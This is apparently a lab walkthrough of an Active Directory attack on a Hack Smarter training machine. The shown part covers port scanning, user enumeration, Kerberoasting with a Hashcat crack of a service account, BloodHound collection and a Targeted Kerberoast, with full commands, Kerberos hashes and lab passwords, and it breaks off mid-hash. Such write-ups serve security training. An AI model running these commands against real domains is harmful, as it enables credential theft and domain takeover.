In this walkthrough, we will be compromising Arasaka, an easy-difficulty Active Directory lab from Hack Smarter Labs. The engagement is an assumed breach starting with valid credentials for the standard domain user `faraday`. SMB enumeration validates our access and pulls the full domain user list, and Kerberoasting recovers a crackable hash for the `alt.svc` service account. BloodHound shows `alt.svc` holds `GenericAll` over `Yorinobu`, which we abuse with a Force Password Change after a Targeted Kerberoast comes back uncrackable. `Yorinobu` in turn holds `GenericWrite` over `Soulkiller.svc`, and a second Targeted Kerberoast recovers that account's password. With `Soulkiller.svc` in the `Certificate Service DCOM` group, Certipy identifies an ESC1 misconfiguration on the `AI_Takeover` template. Our first attempt to authenticate as `Administrator` fails because the account's password is expired, so we pivot to a second Domain Administrator, `the_emperor`, recover its NT hash via PKINIT, and dump the NTDS to extract the `Administrator` hash for full domain compromise.



Created by: [Henry Lever](https://www.hacksmarter.org/courses/f618f837-3060-40a3-81cf-31beeaadf37a)

Let's get started.

## Objective

You are a member of the Hack Smarter Red Team. This penetration test will operate under an assumed breach scenario, starting with valid credentials for a standard domain user, `faraday`.

The primary goal is to simulate a realistic attack, identifying and exploiting vulnerabilities to escalate privileges from a standard user to a Domain Administrator.

**Starting Credentials**

```
faraday:hacksmarter123
```

## Scope

**Target:** `10.0.21.50`

## RustScan

We use [RustScan](https://github.com/bee-san/RustScan) in place of Nmap for initial port discovery. RustScan is a fast port scanner that identifies open ports and passes them to Nmap for service detection and script scanning. The `-a` flag specifies the target, and everything after `--` is forwarded directly to Nmap, so `-sC` runs default scripts and `-sV` probes for service versions.

```
rustscan -a 10.0.21.50 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-07-06 21:32:31Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA/domainComponent=hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:     fae9 1340 b0a8 16fc 0420 5560 a2c9 6fed
| SHA-1:   affe d211 3720 65b4 1ee7 d8da 1a58 6825 5903 d150
| SHA-256: f90f 862f 3c3e 8a53 9e9c 35b8 cfa3 a75a 9121 4ad0 0e43 d847 2d6f 6faf 9817 a749
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA/domainComponent=hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:     fae9 1340 b0a8 16fc 0420 5560 a2c9 6fed
| SHA-1:   affe d211 3720 65b4 1ee7 d8da 1a58 6825 5903 d150
| SHA-256: f90f 862f 3c3e 8a53 9e9c 35b8 cfa3 a75a 9121 4ad0 0e43 d847 2d6f 6faf 9817 a749
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA/domainComponent=hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:     fae9 1340 b0a8 16fc 0420 5560 a2c9 6fed
| SHA-1:   affe d211 3720 65b4 1ee7 d8da 1a58 6825 5903 d150
| SHA-256: f90f 862f 3c3e 8a53 9e9c 35b8 cfa3 a75a 9121 4ad0 0e43 d847 2d6f 6faf 9817 a749
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA/domainComponent=hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:     fae9 1340 b0a8 16fc 0420 5560 a2c9 6fed
| SHA-1:   affe d211 3720 65b4 1ee7 d8da 1a58 6825 5903 d150
| SHA-256: f90f 862f 3c3e 8a53 9e9c 35b8 cfa3 a75a 9121 4ad0 0e43 d847 2d6f 6faf 9817 a749
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-07-06T21:34:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Issuer: commonName=DC01.hacksmarter.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-05T21:24:22
| Not valid after:  2027-01-04T21:24:22
| MD5:     a043 1408 4269 ac8b dd3e 596f f27d a49b
| SHA-1:   f5e5 a0ee 56ca b8d5 a3f0 4107 d9c2 7375 f6fc c37b
| SHA-256: f548 95b9 52df 2577 ac8a b990 780c 6da4 3050 1100 416b 3059 ef92 2c34 f255 559b
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTER
|   NetBIOS_Domain_Name: HACKSMARTER
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hacksmarter.local
|   DNS_Computer_Name: DC01.hacksmarter.local
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-06T21:33:26+00:00
5357/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49683/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
56525/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
56540/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
64188/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
64195/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389/636, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner confirms the domain as `hacksmarter.local` and the hostname as `DC01.hacksmarter.local`. The SSL certificate issuer also reveals a CA named `hacksmarter-DC01-CA`. Add `hacksmarter.local` and `DC01.hacksmarter.local` to `/etc/hosts` before continuing.

## SMB Enumeration

With valid credentials for `faraday` and SMB open, we use NetExec to validate our access and see what shares we can reach.

```
nxc smb hacksmarter.local -u 'faraday' -p 'hacksmarter123' --shares
```

```
SMB         10.0.21.50    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.21.50    445    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
SMB         10.0.21.50    445    DC01             [*] Enumerated shares
SMB         10.0.21.50    445    DC01             Share           Permissions     Remark
SMB         10.0.21.50    445    DC01             -----           -----------     ------
SMB         10.0.21.50    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.21.50    445    DC01             C$                              Default share
SMB         10.0.21.50    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.21.50    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.21.50    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating faraday credentials with NetExec and enumerating available shares*

Our credentials are valid and we have access to the standard shares. Nothing interesting to pull from the shares themselves, but READ on `IPC$` typically lets us enumerate domain users, so let's collect a username list.

```
nxc smb hacksmarter.local -u 'faraday' -p 'hacksmarter123' --users
```

```
SMB         10.0.21.50    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.21.50    445    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
SMB         10.0.21.50    445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.0.21.50    445    DC01             Administrator                 2025-09-18 22:40:20 0       Built-in account for administering the computer/domain 
SMB         10.0.21.50    445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.0.21.50    445    DC01             krbtgt                        2025-09-21 02:51:44 0       Key Distribution Center Service Account 
SMB         10.0.21.50    445    DC01             Goro                          2025-09-21 15:00:31 0       Loyal to a fault 
SMB         10.0.21.50    445    DC01             alt.svc                       2025-09-21 15:07:42 0       Trapped for eternity 
SMB         10.0.21.50    445    DC01             Yorinobu                      2025-09-21 15:12:44 0        
SMB         10.0.21.50    445    DC01             Hanako                        2025-09-21 14:59:03 0       Waiting at embers 
SMB         10.0.21.50    445    DC01             Faraday                       2025-09-21 15:06:45 0        
SMB         10.0.21.50    445    DC01             Smasher                       2025-09-21 15:01:20 0        
SMB         10.0.21.50    445    DC01             Soulkiller.svc                2025-09-21 15:30:13 0       Certificate managment for soulkiller AI 
SMB         10.0.21.50    445    DC01             Hellman                       2025-09-21 15:04:19 0        
SMB         10.0.21.50    445    DC01             kei.svc                       2025-09-21 15:05:16 0       Trapped for eternity 
SMB         10.0.21.50    445    DC01             Silverhand.svc                2025-09-21 15:03:10 0       Trapped for eternity 
SMB         10.0.21.50    445    DC01             Oda                           2025-09-21 15:02:14 0        
SMB         10.0.21.50    445    DC01             the_emperor                   2025-11-06 17:19:03 0        
SMB         10.0.21.50    445    DC01             [*] Enumerated 15 local users: HACKSMARTER
```



*NetExec pulling all 15 domain users, including several service accounts*

We pull 15 domain users and save them to a `users.txt` file for later. A handful of service accounts stand out here, and `Soulkiller.svc` even carries a description referencing certificate management, which is worth keeping in mind.

## Kerberoasting

With valid credentials we can try Kerberoasting. Kerberoasting targets accounts that have a Service Principal Name (SPN) set. Any authenticated domain user can request a Kerberos service ticket (TGS) for an SPN, and part of that ticket is encrypted with the service account's password hash. We request the ticket, extract the encrypted portion, and crack it offline to recover the plaintext password. All it takes is one valid set of credentials, which we have. The NetExec wiki covers this in more detail [here](https://www.netexec.wiki/ldap-protocol/kerberoasting).

```
nxc ldap hacksmarter.local -u 'faraday' -p 'hacksmarter123' --kerberoasting output.txt
```

```
LDAP        10.0.21.50    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hacksmarter.local) (signing:None) (channel binding:Never) 
LDAP        10.0.21.50    389    DC01             [+] hacksmarter.local\faraday:hacksmarter123 
LDAP        10.0.21.50    389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.0.21.50    389    DC01             [*] Total of records returned 1
LDAP        10.0.21.50    389    DC01             [*] sAMAccountName: alt.svc, memberOf: [], pwdLastSet: 2025-09-21 11:07:42.894050, lastLogon: <never>
LDAP        10.0.21.50    389    DC01             $krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$hacksmarter.local\alt.svc*$d499265af9b49f40e7429fbb9043a76e$1b4805ce0391df9b7b49af41dc221540f16cc9a4c3b2db1a459dc5c4a7184cdbea84646e726a180c4c7248b3ab68b905e9eddb3f2f106d08b1f1176b34c256c620c03aa63196668a17e1ab425b733c3ea40f4253eae437139f958705351f0fba9626c7195de7d04854b388a3298bcdec38463510a0a9568627416465f62fe7b2773972d78acc01738e3ddd9584cd646da25421de0989134bfca9429db7691d24b0bb104c1913266eb439ef43791272026683494056085a62d70bbe427c9b19af823cdb19e485ab1735ae9d85c6d8cf8a586113cd902a6cff3329a732c248588d5a3d65e557039a6719a8c622900c6ca28653c31f7b0a50bc19a51302b5d4b6f9ec697953a82292cfe3f3e8763a16c4d8a6bcc4f5a891491d31cf87afc4feeb1a568ffce8dafbce0cba6539c814cf849190b335661e0faa76bea4f71f5a5ac8c0d8264f9899af7b4ad69037c8fae59fffe44bd3483c395157eafce770d8e4cbe4127b5101b008051deb6bd33f75c62e306579b526079d6e506bccb5a5244988eed23465975f42397242bb3ca5a08bfbf1cede4c6c46a7e83ba4f295887cc96d2a0e36ad51e3028b1367c8e161255333423cfcde4f3fc82ab96bc92a352de721a6be11194c5e79a623ec9c334811cc618202cc8b06ffe198647342bf36980b94791106a534d82de6d99a965a172dc904f4a6e816d91392146647e1f9007b15b35a7dfb399b56a2f4d7a48889e86abef2c45c8d717675748023ae4c23ff4da13ecdc5fb91c49668459ce3ab270cdd5f1914a6709bb91afbed5e9ff395dc175340952344ba09539903409e8c8e4a1e84b8d766ede3ecddd83e4009ddd9295af0f398a85aa59f7994286c91509c4927610cacb5177661cf2483a817637d03fe324e69ae99fbc43da962a74f00e9f0e0e1641457bebca72fa5549dd4ab6ef19fdb79374d90f0c00017adf03e1d7b9ae415a9dc8cc3017dfb8324be8d4ae6b9c49633b66629cf00dee4fbeda1c1763b81879f0c6c6107e59dd44f8fea8ad92393549e05981655b143dfe495aae0ed279cbe4cb206f971066b0fa1082ba0fcb9852f0c37fae85411d8d3af5c1907b2ceb4812e495e6e3a36a9df30ca0f58c31b6fde8f933cbcfbbd51b6bc9ddb8f64c04e457bcacecf99f8eddc99c500998669a4de0f93dcf49226cb1e83d7715b3a27fbe0ba667df9fa567f5e5ab320d5d65b9796dffa37a07fda6c13408145810efbef47218d5406115f376dd3335ba2fdb16456890dbe3403ebc1fd2b3d2cb4cc22516fd6ee660fd725b03c593f77f1be17c52af68f70c1503028065b80f98f49627e7cc32fe785240d1b0b7d3234f865c34b31fedf6f861a14c639ac94c0c67ba4a6e182ae0d104bc88f99200049d3cff8f7cd08747e141e08a56d485cf41f7840ac911892192f4d4318fda5fa38220e3246c55ccfcc7091fcc52a480c7aea134d16d6d93be6c1511246f75fec07cd18d03ee0d909f707d2e84e6ee412ec7dd52f7c40af0837443de0c9c52b1bc3
```



*Kerberoasting: alt.svc TGS hash captured via NetExec*

`alt.svc` has an SPN set and we capture its TGS hash. NetExec writes it to `output.txt`, and we crack it with Hashcat.

```
hashcat output.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$hacksmarter.local\alt.svc*$d499265af9b49f40e7429fbb9043a76e$1b4805ce0391df9b7b49af41dc221540f16cc9a4c3b2db1a459dc5c4a7184cdbea84646e726a180c4c7248b3ab68b905e9eddb3f2f106d08b1f1176b34c256c620c03aa63196668a17e1ab425b733c3ea40f4253eae437139f958705351f0fba9626c7195de7d04854b388a3298bcdec38463510a0a9568627416465f62fe7b2773972d78acc01738e3ddd9584cd646da25421de0989134bfca9429db7691d24b0bb104c1913266eb439ef43791272026683494056085a62d70bbe427c9b19af823cdb19e485ab1735ae9d85c6d8cf8a586113cd902a6cff3329a732c248588d5a3d65e557039a6719a8c622900c6ca28653c31f7b0a50bc19a51302b5d4b6f9ec697953a82292cfe3f3e8763a16c4d8a6bcc4f5a891491d31cf87afc4feeb1a568ffce8dafbce0cba6539c814cf849190b335661e0faa76bea4f71f5a5ac8c0d8264f9899af7b4ad69037c8fae59fffe44bd3483c395157eafce770d8e4cbe4127b5101b008051deb6bd33f75c62e306579b526079d6e506bccb5a5244988eed23465975f42397242bb3ca5a08bfbf1cede4c6c46a7e83ba4f295887cc96d2a0e36ad51e3028b1367c8e161255333423cfcde4f3fc82ab96bc92a352de721a6be11194c5e79a623ec9c334811cc618202cc8b06ffe198647342bf36980b94791106a534d82de6d99a965a172dc904f4a6e816d91392146647e1f9007b15b35a7dfb399b56a2f4d7a48889e86abef2c45c8d717675748023ae4c23ff4da13ecdc5fb91c49668459ce3ab270cdd5f1914a6709bb91afbed5e9ff395dc175340952344ba09539903409e8c8e4a1e84b8d766ede3ecddd83e4009ddd9295af0f398a85aa59f7994286c91509c4927610cacb5177661cf2483a817637d03fe324e69ae99fbc43da962a74f00e9f0e0e1641457bebca72fa5549dd4ab6ef19fdb79374d90f0c00017adf03e1d7b9ae415a9dc8cc3017dfb8324be8d4ae6b9c49633b66629cf00dee4fbeda1c1763b81879f0c6c6107e59dd44f8fea8ad92393549e05981655b143dfe495aae0ed279cbe4cb206f971066b0fa1082ba0fcb9852f0c37fae85411d8d3af5c1907b2ceb4812e495e6e3a36a9df30ca0f58c31b6fde8f933cbcfbbd51b6bc9ddb8f64c04e457bcacecf99f8eddc99c500998669a4de0f93dcf49226cb1e83d7715b3a27fbe0ba667df9fa567f5e5ab320d5d65b9796dffa37a07fda6c13408145810efbef47218d5406115f376dd3335ba2fdb16456890dbe3403ebc1fd2b3d2cb4cc22516fd6ee660fd725b03c593f77f1be17c52af68f70c1503028065b80f98f49627e7cc32fe785240d1b0b7d3234f865c34b31fedf6f861a14c639ac94c0c67ba4a6e182ae0d104bc88f99200049d3cff8f7cd08747e141e08a56d485cf41f7840ac911892192f4d4318fda5fa38220e3246c55ccfcc7091fcc52a480c7aea134d16d6d93be6c1511246f75fec07cd18d03ee0d909f707d2e84e6ee412ec7dd52f7c40af0837443de0c9c52b1bc3:babygirl1
```



*Hashcat crack for alt.svc: password recovered from the TGS-REP hash*

Cracked. We have `alt.svc:babygirl1`. Let's verify these against SMB.

## Access as alt.svc

```
netexec smb hacksmarter.local -u 'alt.svc' -p 'babygirl1' --shares
```

```
SMB         10.0.21.50    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.21.50    445    DC01             [+] hacksmarter.local\alt.svc:babygirl1 
SMB         10.0.21.50    445    DC01             [*] Enumerated shares
SMB         10.0.21.50    445    DC01             Share           Permissions     Remark
SMB         10.0.21.50    445    DC01             -----           -----------     ------
SMB         10.0.21.50    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.21.50    445    DC01             C$                              Default share
SMB         10.0.21.50    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.21.50    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.21.50    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating alt.svc credentials with NetExec*

Credentials confirmed, with the same share access as before. Let's collect BloodHound data as `alt.svc` and map out our permissions.

## BloodHound Enumeration

```
nxc ldap hacksmarter.local -u 'alt.svc' -p 'babygirl1' --bloodhound --collection All --dns-server 10.0.21.50
```

```
LDAP        10.0.21.50    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hacksmarter.local) (signing:None) (channel binding:Never) 
LDAP        10.0.21.50    389    DC01             [+] hacksmarter.local\alt.svc:babygirl1 
LDAP        10.0.21.50    389    DC01             Resolved collection methods: acl, dcom, group, session, localadmin, trusts, rdp, psremote, objectprops, container
LDAP        10.0.21.50    389    DC01             Done in 0M 14S
LDAP        10.0.21.50    389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.0.21.50_2026-07-06_175239_bloodhound.zip
```

We import the data into BloodHound and mark `faraday` and `alt.svc` as owned. If you are new to BloodHound, [this walkthrough](https://www.youtube.com/watch?v=whTdMlJGViM) covers how to get it up and running. Looking at the outbound object control for `alt.svc`, the account holds `GenericAll` over `Yorinobu`. `GenericAll` gives us full control over the target object and opens a few abuse paths. We start with a Targeted Kerberoast.



*BloodHound GenericAll: alt.svc over Yorinobu*

## Targeted Kerberoast

A standard Kerberoast only works against accounts that already have an SPN. A Targeted Kerberoast takes advantage of write access over a target account to set an SPN ourselves, roast the account, and then remove the SPN to clean up. Since `alt.svc` has `GenericAll` over `Yorinobu`, we can write an SPN to `Yorinobu` and make it Kerberoastable on demand. [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) automates the whole cycle: it sets the SPN, requests the TGS, prints the hash, and removes the SPN after.

```
python3 targetedKerberoast.py -v -d 'hacksmarter.local' -u 'alt.svc' -p 'babygirl1'
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (alt.svc)
$krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$hacksmarter.local/alt.svc*$1eec58e3166830879cb919a5b11f842c$50841e3eb1be983de0857e01a5e470ad5328e459094665d7095a837aba8f16ca252448689c93eec801acf4cafe19878fbff940da5884b207b3ee903b9f05c4c9d1191aad99bb5f540875eda36850fca9faff5edb1424d61f9949bccbcd3f9b9a5e88dacbe36a887c6fa618a949b9ed163bda6cf7264b7951d0980dc6f7cb350eb60caec99cb07c7eae7c2ba4941ef58c207de68253bb4a2be03df22a788083e55b192f99867017661d2f04ad22e571ca1faf7131ad88af0cd3872ce35b597bb5c122d9ab119adef5f12f625aa236b86293903a75fdfec34aa46921194080a7bbae4484fb1b824ac44075e689d2bbe787c0e81a18a5d683989c4c50a8edb27c0c51b020286bebebdd08b9a54f998e765e05560c623c72f8fd71a1a9bded0ee4207d564d3f52fdfe47318d115cbedb67f5e0aab3b8cc43eafd88c95d4a0faacd3fa2b5740a94b19ea64556c9f6b9d0be6aac35dbf0cec247cd58a547b9a2564b981b5fe32c6aa9c7fbcc7cc41e64e93796366f7af87b2eec7e3d757331e43cdf1f34f2ed0f3fbc837a2fbd56c2b1cac1ced28b9f54ee2315f2d117d754cd4a0b11b719cfd4315af334728692217b65230a97d8a56fb744c88ea2ac51127f50f2ac922eed078bef2b3c9182e659cedf4d8753a2437c3f5c5c509054db795a9e94f694acc07b98f037162f88e261fbe200214cf03b7503aaca4c6a58b15c57f83dedd05e435f859ff5ab54dba83881fce95f15b806b2f9e5